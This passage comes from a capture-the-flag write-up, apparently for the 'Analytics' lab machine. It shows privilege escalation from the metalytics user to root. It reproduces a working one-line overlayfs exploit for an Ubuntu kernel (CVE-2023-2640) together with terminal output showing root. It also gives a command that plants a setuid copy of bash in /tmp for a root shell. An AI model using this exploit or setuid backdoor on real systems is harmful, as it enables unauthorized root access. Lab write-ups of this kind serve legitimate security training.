 Great! The credentials worked and we got an ssh shell as `metalytics`

## root

We don't have any sudo privileges on the system, there are no useful files and running `linpeas` doesn't show anything useful.

The last thing to check is the kernel version running on the system.

```terminal
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Searching for `Linux 6.2.0-25-generic #25~22.04.2-Ubuntu exploit` on google I found this [reddit post](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/) talking about a `local privilege escalation` vulnerability.

![lpe](5.png)

The POC they gave is:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

If we run it and got back a root id it means the target is vulnerable.

```terminal
metalytics@analytics:/tmp/sirius$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

It worked! Now let's get a root shell by changing the command `id` with the following:

```bash
cp /bin/bash /tmp/bash && chmod +s /tmp/bash
```

This creates a copy of bash in /tmp with `suid` bit allowing us to run it as root.

![root](6.png)

After running the command we see that the file is created successfully and has the `suid` bit. We run `/tmp/bash` with the `-p` option telling it we want to run it as the owner which is `root`.

## **Prevention and Mitigation**

### Metabase CVE-2023-38646

Update `metabase` to the latest version.
